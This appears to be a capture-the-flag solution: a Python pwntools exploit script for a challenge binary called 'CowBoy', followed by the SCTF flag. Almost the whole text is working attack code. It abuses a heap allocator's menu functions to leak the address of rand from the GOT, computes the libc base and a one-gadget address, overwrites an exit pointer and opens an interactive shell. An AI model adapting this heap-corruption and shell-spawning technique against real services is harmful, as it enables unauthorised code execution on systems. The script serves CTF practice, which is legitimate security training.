 ```python
	s.send(json.dumps(a).encode())

elf = ELF("./CowBoy")
libc = ELF("./CowBoy_libc")
pause()

############################################

rand_got = elf.got["rand"]
exit_got_pointer = 0x400708

rand_off = libc.symbols["rand"]
one_off = 0x4526a

############################################

def func_alloc(size):
	s.sendline("1")
	s.sendline(str(size))

def func_free(bin_num, chunk_num):
	s.sendline("2")
	s.sendline(str(bin_num))

def func_show():
	s.sendline("3")

def func_fill(bin_num, chunk_num, data):
	s.sendline("4")
	s.sendline(str(bin_num))
	s.sendline(str(chunk_num))
	s.send(str(data))

def func_exit():
	s.sendline("5")

func_alloc("20")
func_alloc("2")
func_fill("0", "0", "11111111" + p64(rand_got))
func_alloc("2")

func_show()
s.recvuntil("bin[0]: ")
s.recvuntil(" 0x")
s.recvuntil(" 0x")
real_rand = int(s.recv(12), 16)

real_base = real_rand - rand_off
real_one = real_base + one_off

print "[*] real_base : " + hex(real_base)
print "[*] real_rand : " + hex(real_rand)
print "[*] real_one : " + hex(real_one)

func_fill("0", "0", "11111111" + p64(exit_got_pointer))
func_alloc("20")
func_fill("1", "2", p64(real_one))
func_exit()

s.interactive()
```

### SCTF{H4v3_y0u_ev3r_seen_CowBoy_B1B0P?}